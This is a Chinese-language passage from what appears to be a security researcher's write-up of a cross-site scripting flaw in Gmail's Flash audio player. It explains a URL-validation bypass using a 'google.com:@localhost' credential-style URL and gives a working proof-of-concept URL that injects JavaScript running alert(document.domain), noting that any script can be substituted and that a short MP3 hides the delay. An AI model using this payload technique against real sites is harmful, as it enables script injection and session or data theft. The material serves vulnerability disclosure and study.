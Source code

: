 ```
        var _loc3 = url.indexOf("://");
        if (_loc3 == -1)
        {
            _loc3 = 0;
        }
        else
        {
            _loc3 = _loc3 + 3;
        } // end else if
        var _loc4 = com.google.webutil.url.Utils.indexOfOrMax(url, "/", _loc3);
        var _loc5 = com.google.webutil.url.Utils.indexOfOrMax(url, "?", _loc3);
        var _loc6 = Math.min(_loc4, _loc5);
        return (url.substring(0, _loc6));
    };

```

注意getProtocolAndHost函数中var_loc5 = _loc3.lastIndexOf(":")这行代码, 我想程序员的本意是想利用这个":"获取web应用的端口, 如localhost:8080之类的, 但是在uri中,还有一个地方是需要":"的, 就是在401登陆中, 作为用户名和密码的分割符, 而且这个":"出现的位置是在作为分割host和端口的":"之前. 利用这个特性,我们就可以很轻松地绕过isValidAbsoluteGoogleUrl的检查了. 载入http://localhost/gmail/audio.swf?audioUrl=http://google.com:@localhost/t.mp3时, 成功地读取到的mediaState_.audioUrl的值,就是http://google.com:@localhost/t.mp3.

再加上其他参数,使得能满足上述的一些if判断,最后的poc如下:

```
https://mail.google.com/mail/html/audio.swf?playerMode=normal&autoplay=true&audioUrl=http://google.com:@localhost/gmail/t.mp3?%27%29%3Bfunction%20FlashRequest%28%29%7Balert%28document.domain%29%7D%2f%2f

```

URL解码后如下

```
https://mail.google.com/mail/html/audio.swf?playerMode=normal&autoplay=true&audioUrl=http://google.com:@localhost/gmail/t.mp3?');function FlashRequest(){alert(document.domain)}//

```

我们拼接最后传入getURL的伪协议字符串

```
javascript:FlashRequest('donePlaying', 'http://google.com:@localhost/gmail/t.mp3?');function FlashRequest(){alert(document.domain)}//');

```

由于在承载swf的html页面中FlashRequest未定义, 我们需要自己定义一个FlashRequest函数, 而且在js中, function语句是最先执行的, 所以不用担心在执行FlashRequest('donePlaying', 'http://google.com:@localhost/gmail/t.mp3?')这句时FlashRequest还没有定义. 当然, 你可以把alert(document.domain)转换成任意你想要执行的js代码. 另外值得注意的一点就是, 由于getURL操作在mp3播放完毕后才触发的, 因此我们把http://localhost/t.mp3剪切得足够短, 只有0.5秒, 当你打开swf之后, 不到一秒钟, MP3已经载入并播放完毕, js得到了执行, 你很难察觉到其中的延迟.

[0x02] 优雅利用

对于一个完美主义者, 我们不得不承认, 上述提到的poc是丑陋的. 原因如下:

```
1. 我们的URL中含有大量的脏代码, 这仅仅是一个poc, 如果需要更进一步的操作, 我们还要添加大量字符到url.
2. 像"http://google.com:@localhost/t.mp3"这样的URL只能被Firefox认可, Chrome和IE会废弃这类的请求.
3. 如果我们需要真正地做一些dirty work, 而不仅仅是弹个document.domain的窗, 那么我们可能需要进行一些的网络通信, 比如载入js,获取关键数据等, 而这些操作的代价是什么, 没错, 就是时间. 我们的poc仅仅是播放一个0.5秒长的MP3文件, 对于一个无聊的dead page, 人们的反应通常右上角的X. 换句话说, 我们争取不到我们需要的时间.

```
